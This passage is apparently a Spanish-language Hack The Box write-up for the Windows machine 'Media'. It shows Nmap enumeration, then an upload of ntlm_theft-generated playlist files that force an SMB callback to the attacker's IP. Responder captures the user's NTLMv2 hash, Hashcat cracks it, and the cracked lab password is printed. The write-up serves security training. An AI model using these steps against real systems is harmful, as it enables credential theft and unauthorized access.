

repository: JAVIKRD/bitacora · page: maquinas/htb/media/index.html · generator: mkdocs

# Máquina: Media

- **Sistema Operativo:** Windows
- **Dificultad:** Media
- **Técnicas clave:** Windows Media Player Playlist Abuse, NTLM Theft, Directory Junctions, Web Shell Upload, SeTcbPrivilege Abuse, Local Privilege Escalation

---

![Media](assets/Pasted%20image%2020260922225710.png)

## Fase 1: Reconocimiento y Enumeración

Iniciamos con un escaneo exhaustivo de puertos utilizando Nmap:

```bash
sudo nmap -sVC --min-rate 5000 -n -Pn -sS 10.129.234.67 -oN escaneo
```

![Escaneo Nmap](assets/Pasted%20image%2020260922225941.png)

Al revisar los puertos abiertos, accedemos al servicio web en el puerto 80:

![Sitio Web](assets/Pasted%20image%2020260922230533.png)

Al final de la página web encontramos un formulario de subida de archivos para candidatos de trabajo:

![Formulario de subida](assets/Pasted%20image%2020260922230857.png)

La descripción de la función de subida indica que el video debe ser compatible con **Windows Media Player**.

Investigando sobre vectores de ataque en Windows Media Player encontramos referencias sobre abuso de listas de reproducción y DRM:

* [Hackers abuse Windows Media Player DRM](https://www.enigmasoftware.com/hackers-abuse-windows-media-players-drm-again/)
* [Microsoft Support - File types supported by Windows Media Player](https://support.microsoft.com/en-us/windows/apps/windowsmediaplayer/file-types-supported-by-windows-media-player)

Una búsqueda rápida de tipos de archivos compatibles nos revela extensiones como:
- `.wax`: Lista de reproducción de audio de Windows Media (se abre por defecto con Windows Media Player).
- `.asx`: Lista de reproducción de Windows Media (se abre por defecto con este programa).
- `.m3u`: Lista de reproducción estándar.

Utilizamos la herramienta **[ntlm_theft](https://github.com/Greenwolf/ntlm_theft)** para generar archivos de prueba que fuercen una petición SMB saliente hacia nuestra máquina atacante:

```bash
python3 ntlm_theft.py -g all -s 10.10.14.240 -f leak
```

![Generación con ntlm_theft](assets/Pasted%20image%2020260923000213.png)

Seleccionamos el archivo `.asx` o `.wax` y lo subimos a través del formulario:

![Subida de archivo](assets/Pasted%20image%2020260923000615.png)

![Confirmación de subida](assets/Pasted%20image%2020260923000648.png)

Iniciamos `Responder` en nuestra máquina y, en cuanto el backend procesa el archivo, capturamos el hash NTLMv2 del usuario `enox`:

![Captura Responder](assets/Pasted%20image%2020260923000748.png)

Guardamos el hash en `hash.txt` y procedemos a crackearlo con Hashcat utilizando el diccionario `rockyou.txt`:

```bash
hashcat -m 5600 hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

![Hashcat cracking](assets/Pasted%20image%2020260923000949.png)

![Contraseña crackeada](assets/Pasted%20image%2020260923001019.png)

La contraseña obtenida es: `1234virus@`.
